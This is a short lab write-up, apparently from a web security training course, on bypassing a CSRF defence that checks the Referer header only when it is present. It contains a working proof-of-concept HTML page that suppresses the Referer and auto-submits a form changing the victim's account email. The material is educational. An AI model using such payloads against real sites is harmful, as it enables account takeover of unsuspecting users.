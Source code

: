 # [CSRF] LAB: CSRF where Referer validation depends on header being present (1)

---

![Untitled](%5BCSRF%5D%20LAB%20CSRF%20where%20Referer%20validation%20depends%20o%20ff67f61c58ce433d9f71a7dd340ef58a/Untitled.png)

![Untitled](%5BCSRF%5D%20LAB%20CSRF%20where%20Referer%20validation%20depends%20o%20ff67f61c58ce433d9f71a7dd340ef58a/Untitled%201.png)

![Untitled](%5BCSRF%5D%20LAB%20CSRF%20where%20Referer%20validation%20depends%20o%20ff67f61c58ce433d9f71a7dd340ef58a/Untitled%202.png)

since when we remove the referer header the request still works we can generate a simple csrf PoC and include the meta tag in our HTML we server to the victim. 

```jsx
<meta name="referrer" content="never">
```

so the payload could look like this: 

```jsx
<html>
  <meta name="referrer" content="never">
  <body>
    <form action="https://0a01000003e7913880510dcd000800f3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;c" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![Untitled](%5BCSRF%5D%20LAB%20CSRF%20where%20Referer%20validation%20depends%20o%20ff67f61c58ce433d9f71a7dd340ef58a/Untitled%203.png)